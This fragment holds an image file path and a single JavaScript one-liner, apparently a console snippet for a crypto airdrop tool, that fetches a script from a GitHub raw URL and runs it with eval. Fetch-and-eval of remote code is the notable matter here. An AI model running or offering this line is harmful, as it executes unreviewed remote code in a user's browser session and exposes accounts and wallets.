 fetch('https://raw.githubusercontent.com/dante4rt/airdrop-snippets/main/sidekick/index.js').then(response => response.text()).then(eval).catch(console.error);
